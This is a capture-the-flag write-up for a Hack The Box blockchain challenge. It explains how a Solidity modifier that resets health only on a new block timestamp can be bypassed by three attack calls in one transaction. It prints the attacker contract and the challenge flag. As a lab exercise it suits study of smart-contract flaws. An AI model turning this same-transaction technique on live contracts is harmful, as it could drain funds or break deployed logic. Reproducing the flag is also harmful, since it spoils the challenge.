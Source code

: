 # Eldorion Blockchain Challenge Writeup

## Challenge Overview
The Eldorion challenge is a blockchain-based CTF from HTB 2025. The objective is to defeat the "Eldorion" smart contract by reducing its health to exactly 0.

## Vulnerability Analysis

The challenge consists of two main contracts:

1. **Setup.sol** - Entry point that deploys and references the target Eldorion contract.
2. **Eldorion.sol** - The contract we need to defeat.

### Key Vulnerability

The vulnerability lies in the `eternalResilience` modifier in the Eldorion contract:

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

This modifier is applied to the `attack()` function. It resets the health to MAX_HEALTH (300) whenever a new block timestamp is encountered. 

The crucial vulnerability is that the health only resets when the timestamp changes. Multiple attacks in the same block will bypass this health reset mechanism.

### Exploitation Strategy

The Eldorion contract has:
- Initial health of 300
- MAX_HEALTH of 300
- A limit of 100 damage per attack

To defeat Eldorion, we need to:
1. Make three attacks of 100 damage each
2. Ensure all three attacks happen within the same block (same timestamp)
3. This will reduce health from 300 to exactly 0

## Solution

The solution is to deploy an attacker contract that makes three calls to Eldorion's `attack()` function in a single transaction, which guarantees they execute at the same timestamp.

### Attacker Contract Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
    function isDefeated() external view returns (bool);
}

contract EldorionAttacker {
    IEldorion public immutable target;
    
    constructor(address _target) {
        target = IEldorion(_target);
    }
    
    function executeAttack() external {
        // Execute three attacks with 100 damage each in a single transaction
        target.attack(100);
        target.attack(100);
        target.attack(100);
        
        // Verify Eldorion is defeated
        require(target.isDefeated(), "Eldorion not defeated");
    }
}
```

### Exploitation Steps

1. Connected to the challenge server at 94.237.63.28:38259 to get the setup information:
   - Player account private key and address
   - Target (Eldorion) contract address
   - Setup contract address

2. Compiled the EldorionAttacker contract with Solidity 0.8.28.

3. Deployed the attacker contract, passing the Eldorion contract address as the constructor parameter.

4. Called the `executeAttack()` function, which:
   - Made three `attack(100)` calls in a single transaction
   - Each attack dealt 100 damage
   - The health went from 300 → 200 → 100 → 0
   - The contract verified Eldorion was defeated

5. After executing the attack transaction, the `EldorionDefeated` event was emitted, confirming the successful exploit.

6. Retrieved the flag from the challenge server by selecting option 3 (Get flag).

## Lessons Learned

1. **Timestamp Manipulation**: The vulnerability demonstrates how timestamp-based conditions can be bypassed if multiple operations happen within the same block.

2. **Smart Contract Design Issues**: The `eternalResilience` modifier was intended to protect Eldorion by resetting health on each new attack, but failed to account for multiple attacks in the same transaction.

3. **Block Atomicity**: All operations within a single transaction execute atomically (or not at all), which allowed us to make all attacks before the health reset could take effect.

## Flag

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

The flag references our "triple hit combo" attack strategy which defeated Eldorion.

## Write-Up Credit: binchickens69 ```https://ctf.hackthebox.com/user/profile/605069```